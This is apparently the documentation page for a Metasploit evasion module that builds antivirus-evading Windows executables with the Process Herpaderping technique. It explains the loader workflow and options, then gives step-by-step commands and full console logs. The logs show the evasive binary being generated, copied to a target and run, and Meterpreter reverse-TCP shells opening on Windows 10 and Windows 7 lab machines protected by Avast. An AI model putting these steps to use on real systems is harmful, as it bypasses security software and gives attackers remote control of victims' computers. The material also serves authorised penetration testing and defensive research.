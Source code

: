 ## Description
This module allows you to generate a Windows executable that evades security
products such as Windows Defender, Avast, etc. This uses the Process
Herpaderping technique to bypass Antivirus detection. This method consists in
obscuring the behavior of a running process by modifying the executable on disk
after the image has been mapped in memory (more details
[here](https://jxy-s.github.io/herpaderping/)).

First, the chosen payload is encrypted and embedded in a loader Portable
Executable (PE) file. This file is then included in the final executable. Once
this executable is launched on the target, the loader PE is dropped on disk and
executed, following the Process Herpaderping technique. Note that the name of
the file that is being dropped is randomly generated. However, it is possible
to configure the destination path from Metasploit (see `WRITEABLE_DIR` option
description).

Here is the main workflow:

1. Retrieve the target name (where the PE loader will be dropped).
1. Retrieve the PE loader from the binary and write it on disk.
1. Create a [section object](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views)
   and create a process from the mapped image.
1. Modify the file content on disk by copying another (inoffensive) executable
   or by using random bytes (see `REPLACED_WITH_FILE` option description).
1. Create the main Thread.

The source code is based on [Johnny Shaw](https://twitter.com/jxy__s)'s
[PoC](https://github.com/jxy-s/herpaderping).

**This payload won't work on 32-bit Windows 10 versions from 1511 (build
10586) to 1703 (build 15063), including Windows 10 2016 LTSB (build 14393).**
These versions have a bug in the kernel that crashes/BugCheck the OS
when executing this payload. So, to avoid this, the payload won't run if
it detects the OS is one of these versions. More details [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=852).

## Verification Steps
Here are the steps using a Meterpreter payload on a 64-bits target:

1. Do: `use evasion/windows/process_herpaderping`
1. Do: `set LHOST <local IP>`
1. Do: `set target 0`
1. Do: `set payload windows/x64/meterpreter/reverse_tcp`
1. Do: `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. Do: `run`
1. Copy the generated executable file to the target (using another exploit or SMB)
1. Run it on the target
1. Verify the Antivirus did not block its execution
1. Verify you got a session

## Options

### ENCODER
A specific encoder to use (automatically selected if not set). Note that the
encoded payload will be automatically encrypted before being placed into the
loader.

### FILENAME
Filename for the generated evasive file file. The default is random.

### WRITEABLE_DIR
Where to write the loader on disk. Windows environment variables can be used
in the path and the default is set to `%TEMP%`. Note that this file will be
removed automatically when the session is terminated or if an error occurs.

### REPLACED_WITH_FILE
The file to replace the target with. If not set, the target file will be filled
with random bytes (WARNING! it is likely to be caught by AV). Windows
environment variables can be used in the path and the default is set to
`%SystemRoot%\\System32\\calc.exe`.


## Scenarios
### Windows 10 x64 version 1909 with Avast Antivirus (also tested with Windows Defender)
```
msf > use evasion/windows/process_herpaderping
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf evasion(windows/process_herpaderping) > set LHOST 192.168.144.1
LHOST => 192.168.144.1
msf evasion(windows/process_herpaderping) > set target 0
target => 0
msf evasion(windows/process_herpaderping) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf evasion(windows/process_herpaderping) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf evasion(windows/process_herpaderping) > run
[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
msf evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x64.exe

msf evasion(windows/process_herpaderping) >
[*] Sending stage (200262 bytes) to 192.168.144.128
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.128:50205) at 2021-01-22 13:02:14 +0100

msf evasion(windows/process_herpaderping) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-UUQE0B4
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-UUQE0B4\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.128 - Meterpreter session 1 closed.  Reason: User exit
```

### Windows 7 x86 with Avast Antivirus
```
msf evasion(windows/process_herpaderping) > set target 1
target => 1
msf evasion(windows/process_herpaderping) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf evasion(windows/process_herpaderping) > options

Module options (evasion/windows/process_herpaderping):

   Name                Current Setting                 Required  Description
   ----                ---------------                 --------  -----------
   ENCODER                                             no        A specific encoder to use (automatically selected if not set)
   FILENAME            raU.exe                         yes       Filename for the evasive file (default: random)
   REPLACED_WITH_FILE  %SystemRoot%\System32\calc.exe  no        File to replace the target with. If not set, the target file will be filled with random bytes (WARNING! it is likely to be caught by AV).
   WRITEABLE_DIR       %TEMP%                          yes       Where to write the loader on disk


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Evasion target:

   Id  Name
   --  ----
   1   Microsoft Windows (x86)


msf evasion(windows/process_herpaderping) > run

[+] raU.exe stored at /home/msfuser/.msf4/local/raU.exe
[!] #### WARNING ####
This payload won't work on 32-bit Windows 10 versions from 1511 (build
10586) to 1703 (build 15063), including Windows 10 2016 LTSB (build 14393).
These versions have a bug in the kernel that crashes/BugCheck the OS
when executing this payload. So, to avoid this, the payload won't run if
it detects the OS is one of these versions.
msf evasion(windows/process_herpaderping) > cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe
[*] exec: cp /home/msfuser/.msf4/local/raU.exe /remote_share/tmp/test_x86.exe

msf evasion(windows/process_herpaderping) > jobs -K
Stopping all jobs...
msf evasion(windows/process_herpaderping) > handler -p windows/meterpreter/reverse_tcp -H 192.168.144.1 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.144.1:4444
msf evasion(windows/process_herpaderping) > [*] Sending stage (175174 bytes) to 192.168.144.133
[*] Meterpreter session 3 opened (192.168.144.1:4444 -> 192.168.144.133:51542) at 2021-01-22 13:09:43 +0100

msf evasion(windows/process_herpaderping) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN7-DEV
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN7-DEV\n00tmeg
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.133 - Meterpreter session 3 closed.  Reason: User exit
```
